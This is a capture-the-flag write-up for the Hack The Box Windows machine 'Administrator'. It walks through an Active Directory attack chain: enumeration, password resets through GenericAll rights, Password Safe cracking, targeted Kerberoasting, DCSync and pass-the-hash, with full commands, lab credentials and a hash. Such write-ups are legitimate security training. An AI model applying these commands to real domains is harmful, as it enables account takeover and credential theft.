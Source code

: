 # HTB - Administrator

**IP Address:** `10.10.11.42`  
**OS:** Windows  
**Difficulty:** Hard  
**Tags:** #SMB, #WinRM, #BloodHound, #ShadowCredentials, #RPC, #PasswordCracking, 
#DCSync
**Extra initial information:**
- User: olivia
- Password: ichliebedich

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping 10.10.11.42
```

✅ Host is up

---

### 1.2 Port Scanning

Basic port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.42 -oG allPorts
```

Deeper scan with script and XML output:

```bash
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,51918,54283,54288,54302,54310 -sCV 10.10.11.42 -oN targeted -oX targetedXML
```

---

## 2. SMB and WinRM Access

```bash
crackmapexec smb 10.10.11.42
```

Edit `/etc/hosts` to map the domain:

```
10.10.11.42 administrator.htb
```

Verified user login with NetExec:

```bash
netexec smb 10.10.11.42 -u olivia -p ichliebedich
```

Login success, but user is not in the **Remote Management Users** group.

However, WinRM is open:

```bash
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
```

✅ Access as `olivia`

---

## 3. Enumeration

List users:

```bash
net user
```

RPC enumeration using Olivia’s credentials:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42
```

Dump domain users:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42 -c 'enumdomusers' > users.txt
cat users.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge users.txt
```

Checked AS-REP roasting:

```bash
GetNPUsers.py -no-pass -usersfile users.txt administrator.htb/
```

No users were vulnerable.

---

## 4. BloodHound + LDAPDomainDump

Install BloodHound:

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
```

Dump LDAP data:

```bash
ldapdomaindump -u 'administrator.htb\olivia' -p ichliebedich 10.10.11.42
```

Access domain HTML data via a local web server.

Collect BloodHound data:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All --zip -ns 10.10.11.42 -d administrator.htb
```

Discovered a **GenericAll** relationship from `olivia` to `michael`.

---

## 5. Lateral Movement

Change `michael`’s password via NetExec or RPC:

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42
```

Used BloodHound to confirm `michael` can reset `benjamin`’s password as well:

```bash
net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S 10.10.11.42
```

---

## 6. File Access via SMB and FTP

Access shared files using `benjamin`:

```bash
smbmap -H 10.10.11.42 -u benjamin -p 'newP@ssword2022' -r
```

Discovered interesting file via FTP:

```bash
ftp 10.10.11.42
get Backup.psafe3
```

The file is a **Password Safe** database.

---

## 7. Cracking Password Safe

Used `pwsafe`:

```bash
pwsafe Backup.psafe3
```

Extracted hash using `pwsafe2john` and cracked with rockyou:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `tekieromucho`

Logged into pwsafe and found credentials for user `emily`.

---

## 8. Privilege Escalation via Kerberoasting

Logged in as `emily` via WinRM:

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

Used **targetedKerberoast.py**:

```bash
python3 targetedKerberoast.py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d administrator.htb --dc-ip 10.10.11.42
```

Cracked Ethan's TGS hash:

```bash
john hash_ethan --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `limpbizkit`

---

## 9. DCSync Attack → Domain Admin

Performed DCSync using Ethan’s credentials:

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
```

✅ Retrieved Administrator NTLM hash

Logged in as Administrator:

```bash
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

✅ Root access obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE
